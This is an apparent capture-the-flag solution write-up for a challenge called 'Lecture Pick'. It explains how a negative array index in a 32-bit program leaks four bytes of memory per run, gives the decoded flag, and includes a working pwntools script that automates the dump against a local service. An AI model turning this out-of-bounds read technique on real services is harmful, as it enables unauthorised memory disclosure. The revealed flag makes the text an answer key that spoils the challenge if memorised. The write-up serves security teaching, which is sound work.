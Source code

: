 ## Lecture Pick (Medium) - Solution

The variable `courses` holds a list of string pointers. We know that strings
are readonly arrays of chars. All strings are located in the `.text` segment of
the program. As the flag is also a string constant in the program it is also
located somewhere in this section.
The program prints the addresses of `courses` which is on the stack, as well as
the addresses of all course strings which are in `.text`.
Afterwards the result of the `courses[x]` expression is printed as a 4 byte hex
number (using the `%p` formatting on 32 bit machines).
Given the adress of `courses` as e.g. `0xffa2dd0c` and `x` as `3` the
expression `courses[x]` effectively loads 4 bytes from the address
`courses + 4 * x` which is `0xffa2dd0c + 4 * 3`.
Given the address of the String `"Maths 1"` as e.g. `0x56591032` we can
calculate an `x` in order to read four bytes from the text segment:
`(0x56591032 - 0xffa2dd0c) / 4 = -710046518,5`. Entering `-710046518` for x we
should be able to read bytes 2-6 of the `"Maths 1"` string, which should be
`ths `. The program outputs `0x20736874`, which we can convert to a string by
changing the byte order (little endian read from linear array) and then
interpreting each byte as a hex encoded ascii character:
- 0x74 -> 116 -> t
- 0x68 -> 104 -> h
- 0x73 -> 115 -> s
- 0x20 -> 32 -> space

As we can see with each run of the program we can dump 4 bytes from the `.text`
segment of the program. Using this technique we can search for the flag and
dump it.

While this could be achieved manually, the following shows a python program
which performs this task automatically. Running the program results in:
```
????????????????????????????????????????????????????????nflag{c4lcul4t1ng-th3-0ffs3ts-l1k3-a-pro}.Maths 1.Maths 2.Object Oriented Programming.Computer Vision.IT-Security.Forens????Software Engineering.Theoretical Computer Science.Courses [%????.  - [%p] %s..Pick one: .%ld.You picked ????...;????????
```
which is a dump of most of the strings from the `.text` section. As we can see
it includes the flag `nflag{c4lcul4t1ng-th3-0ffs3ts-l1k3-a-pro}`

```python3
from pwn import *
from binascii import unhexlify

result = ""
for offset in range(-100, 200, 4):
    try:
        p = remote("localhost", 4000) # replace with your target
        p.readuntil("Courses [0x")
        courses = int(p.read(8), 16)
        p.readuntil("  - [0x")
        math1 = int(p.read(8), 16)

        p.readuntil("Pick one:")
        x = int((math1 - courses + offset) / 4)

        p.sendline(str(x).encode("utf8"))
        p.readuntil("You picked 0x")
        data = unhexlify(p.read(8))

        p.close()

        for c in data[::-1]:
            c = chr(c)
            if c.isprintable():
                result += c
            else:
                result += "."
    except:
        print("Error reading offset {}, filling with ?".format(offset))
        result += "????"

    if offset % 10 == 0:
        print("reading offset {}/120".format(offset))

print(result)
```
